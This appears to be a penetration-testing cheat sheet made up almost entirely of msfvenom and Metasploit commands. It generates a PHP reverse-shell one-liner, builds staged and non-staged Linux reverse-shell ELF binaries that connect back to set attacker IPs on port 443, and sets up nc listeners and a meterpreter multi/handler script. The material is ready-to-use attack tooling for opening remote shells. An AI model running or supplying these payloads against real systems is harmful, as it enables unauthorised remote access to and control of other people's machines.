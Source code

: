     $ ./msfvenom -p php/reverse_php --payload-options
    $ ./msfvenom -p php/reverse_php LHOST='192.168.77.142' LPORT=4445
    # generates 'one-liner' payload
    $ ./msfvenom -p php/reverse_php LHOST='192.168.77.142' LPORT=4445 | tr -s ' ' | tr -d '\n'

### Handlers

**handler for non staged payloads**

    nc -nlvp 443

**handlers for staged payloads**

```
cat << "EOF" > ./https-meter-handler.rc
use exploit/multi/handler
#set PAYLOAD linux/x86/meterpreter/reverse_tcp
#set PAYLOAD php/meterpreter/reverse_tcp
#set PAYLOAD windows/meterpreter/reverse_tcp
set PAYLOAD windows/meterpreter/reverse_https 
set LHOST 192.168.30.68
set LPORT 443
set ExitOnSession false
exploit -j -z
EOF
```

### use case: creating simple Linux connect back binary

    msfvenom -l | grep 'linux/x86'
    msfvenom -p linux/x86/shell_reverse_tcp -f elf -o notStaged LHOST='192.168.30.68' LPORT=443

    attacker$ nc -l -p 443

    ./notStaged

    attacker> ls -al

### use case: Linux connect back binary with staged (e.g. meterpreter) payload

    # create binary
    msfvenom -l | grep 'linux/x86'
    msfvenom -p linux/x86/meterpreter/reverse_tcp -f elf -o staged LHOST='192.168.30.68' LPORT=443

    # prepare handler on attacker
    msfconsole
    msf> use exploit/multi/handler
    msf> set LHOST 192.168.30.68
    msf> set LPORT 443 
    msf> exploit
